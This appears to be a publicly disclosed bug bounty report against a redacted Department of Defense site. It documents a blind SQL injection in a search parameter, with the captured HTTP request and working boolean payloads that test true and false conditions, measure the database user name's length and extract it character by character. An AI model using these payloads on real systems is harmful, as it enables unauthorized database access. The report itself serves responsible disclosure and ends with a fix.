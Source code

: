 # SqlInject at ██████

## Report Details
- **Report ID**: 2073717
- **URL**: https://hackerone.com/reports/2073717
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2023-07-18T04:01:55.149Z
- **Disclosed**: 2023-09-08T17:15:41.903Z

## Reporter
- **Username**: kirs_bughunter
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
**Description:**
Dear DoD,
I found the injection at:https://██████/

** Steps to reproduce **
1.open https://██████████/MEDIA/Posters

2.Type in the search box '

█████

3.After capturing packets through burp, the injection point is at searchText

```
GET /API/Evotiva-UserFiles/GetItemsServices/GetItems?itemId=27293&rootItemId=27293&sortExpression=LastModifiedOnDate%2Ctrue&searchText=&searchTags=&take=25&skip=0&page=1&pageSize=25 HTTP/1.1
Host: ███
Tabid: 1236
Sec-Ch-Ua: "Not.A/Brand";v="8", "Chromium";v="114", "Microsoft Edge";v="114"
Requestverificationtoken: V-hXssqxuHlRDyUEJbBTYFASgfr6bkOTeGgemYKdc0jsjPPEhri1fP1l-vJbcSyUMOYiXQ2
Sec-Ch-Ua-Mobile: ?0
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
Moduleid: 9270
Sec-Ch-Ua-Platform: "Windows"
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://██████/MEDIA/Posters
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
User-Agent: Mozilla/5.0 (Windows NT 6.2; Win64; x64;) Gecko/20100101 Firefox/20.0
Connection: close

```

4.proof of concept poc  
The following is the poc for ture

```
')AND+22=22+AND+('NaXY'+LIKE+'NaXY
```
████████

5.The following is the poc for false
```
')AND+22=21+AND+('NaXY'+LIKE+'NaXY
```
██████

5.Get the current user length is 22
```
')AND+len(user)=22+AND+('NaXY'+LIKE+'NaXY
```
████

██████

6.Get users from the current database
POC：

Please note! Among them, the fifth character is a special character, we need to match it by ascii code
```
')AND+ascii(substring(user,5,1))='92'+AND+('NaXY'+LIKE+'NaXY
```
The user who finally ran out was ** nase/svc.puub17.zp.safe **

█████

7.Here is a screenshot of sqlmap

█████

## Impact

An attacker can obtain information from the database

## System Host(s)
█████████

## Affected Product(s) and Version(s)


## CVE Numbers


## Steps to Reproduce
Please see Description

## Suggested Mitigation/Remediation Actions
Use parameterized statements, do not splice sql



## Attachments
No attachments
